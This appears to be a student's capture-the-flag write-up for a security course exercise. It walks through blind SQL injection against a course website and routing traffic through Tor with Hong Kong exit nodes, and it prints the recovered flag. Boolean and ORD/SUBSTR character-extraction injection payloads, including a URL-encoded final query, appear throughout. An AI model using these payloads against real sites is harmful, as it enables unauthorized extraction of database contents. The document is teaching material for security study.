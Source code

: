 ```yaml
---
layout: post
title: 'Tormity Writeup'
category: memo
slug: tormity-writeup
---
```

Security Programming Homework 1-1

## Get Flags

According to the first hint: "Try to capture as more flags as you can.", I
think we should use to Tor to visit the website. But for tests and simlicity,
I decided to use Chrome extension which called "Hola". It is a cute tool that
help you surfing the Internet through VPNs.

Although "Hola" is convenient, we should use Tor for better anonimity, like
atdog said.

## SQL injection Tests

According to the second hint, I believe there are vulnerabilities about SQL
injection in the website. So I tried to append following query strings, assume
the base url is `http://tor.atdog.tw/news/1`

```sql
'
`
UNION SELECT 1
UNION SELECT 1,2
UNION SELECT 1,2,3
...
```

Failed. We only got "500 Internal Server Error" page all the time. Try another
method

```sql
AND 1=1
AND 1=2
```

Something happened! The first url returned the article but the second did not.
So I guess I can use this feature to identify something, e.g. flag.

The second hint told me that there is a flag in the "flags" table and its
column name is called "flag". Chances are there could be multiple rows in that
table. I want to know how many rows are there in the "flags" table

```sql
AND EXISTS(SELECT 1 FROM flags LIMIT 0, 1)
AND EXISTS(SELECT 1 FROM flags LIMIT 1, 1)
AND EXISTS(SELECT 1 FROM flags LIMIT 2, 1)
```

Using the "limit" SQL command to limit the lines of returned row(s). We knew
there are two rows in the "flags" table from the above tests. But which one is
the real flag? According to my tests, the actual flag is the second one.

The meaning of "blind SQL injection" is that we can only get true or false as
a result at one time. But how can we capture the flag? One of the approaches is
to narrow down the number of candidates of a single character by asking the
webpage "larger or smaller" question. After located the exact character, move
on to the next character. Repeat this action, the flag will show up

```sql
AND EXISTS(SELECT 1 FROM flags WHERE ORD(SUBSTR((SELECT flag FROM flags LIMIT 1,1), 1)) <= 79)
```

Finally, our sophisticated query string which will be appended to the base url is

```sql
%20and%20exists(select%201%20from%20flags%20where%20ord(substr((select%20flag%20from%20flags%20limit%201,1),%201))%20%3C=%2079)
```

## Using Tor

The hint told me that I should connect to the webpage with Hong Kong IP. To
satisfy this restriction and to use python script doing this boring job for me,
Tor must be setup.

First we need to install Tor via Homebrew `brew install tor`. After the
installation was done, you will see the caveats shown on the terminal

```bash
To have launchd start tor at login:
    ln -sfv /usr/local/opt/tor/\*.plist ~/Library/LaunchAgents
Then to load tor now:
    launchctl load ~/Library/LaunchAgents/homebrew.mxcl.tor.plist
```

The default Tor configuration file is at `/usr/local/etc/tor/torrc.sample`.
We just need to add two lines of configuration in `${HOME}/.torrc`

```
StrictNodes 1
ExitNodes {hk}
```

Then all of our connections will exit from Hong Kong.

## Writing Python Script

### Environment

I use Python 2.7.8 to write the script, and import some modules for automatic
login and using SOCKS proxy

```bash
pyenv virtualenv 2.7.8 secprog-2.7.8
pyenv local secprog-2.7.8
pip install mechanize PySocks
```

### Key Points

- Using python mechanize library to implement login action
- Using python PySocks library to make all connections go through Tor network
  (SOCKS proxy)

## Flag

The flag is `SECPROC{Hey,D0n't_f0rg3t_g0_thr0ugh_an0nymity_n3tw0rk.}`

## References

- [Tor Country Codes - B3RN3D][1]
- [tutorial SQL injection - LampSecurity CTF 6][2]
- [MySQL - String Functions][3]
- [Python's mechanize to login like a user][4]
- [stack overflow - using tor as a SOCKS5 proxy with python urllib2 or mechanize][5]
- [stack overflow - python re.sub group: number after \number][6]

[1]: https://b3rn3d.herokuapp.com/blog/2014/03/05/tor-country-codes
[2]: http://www.infond.fr/2010/06/tutorial-sql-injection-lampsecurity-ctf.html
[3]: http://dev.mysql.com/doc/refman/5.0/en/string-functions.html#function_substr
[4]: http://simplapi.wordpress.com/2012/04/20/pythons-mechanize-login-like-a-user/
[5]: http://stackoverflow.com/questions/14449974/using-tor-as-a-socks5-proxy-with-python-urllib2-or-mechanize
[6]: http://stackoverflow.com/questions/5984633/python-re-sub-group-number-after-number
